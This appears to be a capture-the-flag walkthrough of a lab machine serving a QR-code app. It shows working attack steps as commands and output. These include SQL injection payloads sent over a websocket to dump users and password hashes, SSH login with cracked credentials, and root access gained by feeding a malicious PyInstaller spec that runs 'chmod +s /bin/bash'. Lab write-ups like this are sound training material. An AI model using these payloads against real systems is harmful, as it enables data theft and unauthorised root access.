 Enumeration
Rustscan
sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.1xx.1xx.xxx -- -sV -sC -oA ./
Ports
Open 10.1xx.1xx.xxx:22
Open 10.1xx.1xx.xxx:80
Open 10.1xx.1xx.xxx:5789
Services
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
5789/tcp open  unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 25 Mar 2023 19:00:51 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 25 Mar 2023 19:01:06 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 25 Mar 2023 19:01:07 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
Foothold
First things first, added qreader.htb to my /etc/hosts file.

After that I started to analyze webpage which does pretty much just two basic things:

Generate a QR Code based on a string that you provide
Read a QR Code in various image formats and display it’s content
Beside that there were two download links one for a linux application and one for windows.

Exploitation
For the next steps you would need to have python38 otherwise you could run into some issues.

Decompile Application
# Convert App to pyc
pyi-archive_viewer qreader
? X qreader
to filename? ./qreader.pyc

# Decompyle pyc using uncompyle
uncompyle6 qreader.pyc > qreader.py
Source Analysis
I removed erverything except the interesting parts.

We find an URL which points to the websocket service running on port 5789 and a function “version” that will send some data to that port to receive an answer.

...
ws_host = 'ws://ws.qreader.htb:5789'
...
    def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)
...
I’ve already seen SQL Injections over websocket in the past so that was something that came to my mind

SQL Injection
ws_cli.py
I changed the query paramter during my tests

from websocket import create_connection
import sys, json

ws_host = 'ws://ws.qreader.htb:5789'

VERSION = '0.0.2'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()

Simple Check

python3 ws_cli.py
Sending...
Sent
Receiving...
Received '{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}'
Check SQLi

# query='0.0.3" UNION SELECT 1,2,3,4-- -''
Sending...
Sent
Receiving...
Received '{"message": {"id": 1, "version": 2, "released_date": 3, "downloads": 4}}'
Check which DB

# Played around and sqlite was the way to go!
# query='0.0.3" UNION SELECT sqlite_version(),2,3,4-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}'
Get Tables and Infos

# Getting Tables
## query='0.0.3" UNION SELECT group_concat(name),2,3,4 from sqlite_schema-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "sqlite_sequence,versions,users,info,reports,answers", "version": 2, "released_date": 3, "downloads": 4}}'

# Getting Column Names
## query='0.0.3" UNION SELECT sql,2,3,4 from sqlite_master WHERE type!="meta" AND sql NOT NULL AND name ="users"-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "version": 2, "released_date": 3, "downloads": 4}}'

## query='0.0.3" UNION SELECT sql,2,3,4 from sqlite_master WHERE type!="meta" AND sql NOT NULL AND name ="answers"-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": 2, "released_date": 3, "downloads": 4}}'

# Getting Content of Columns
## query='0.0.3" UNION SELECT username,password,3,4 from users-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "admin", "version": "CENSORED", "released_date": 3, "downloads": 4}}'

## query='0.0.3" UNION SELECT group_concat(answered_by),group_concat(answer),3,4 from answers-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "admin,admin", "version": "Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller,Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "released_date": 3, "downloads": 4}}'
SSH
This one was a bit tricky. The hash found could be easily cracked using https://crackstation.net/. The username wasn’t that simple at first.

Checking the answers table revealed that the admin is named Thomas Keller. So let’s assume a standard naming convention which could be either thomask or tkeller.

# tkeller was the right name
ssh tkeller@qreader.htb
Escalation
Local Enumeration
sudo -l
User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
build-installer.sh

#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
Exploitation
As you can see we run the build-installer.sh as root which means we can inject our own commands to it and have them run as root. I had to read this up but pyinstaller just literally executes the the file which I provided to it.

So instead of giving a valid spec file I created little snippet that modifies /bin/bash

import os
os.system("chmod +s /bin/bash")
Let’s execute

tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build my.spec
128 INFO: PyInstaller: 5.6.2
128 INFO: Python: 3.10.6
131 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
136 INFO: UPX is not available.
tkeller@socket:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 26 01:26 /bin/bash
Root
tkeller@socket:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# ls /root
cleanup  root.txt  snap
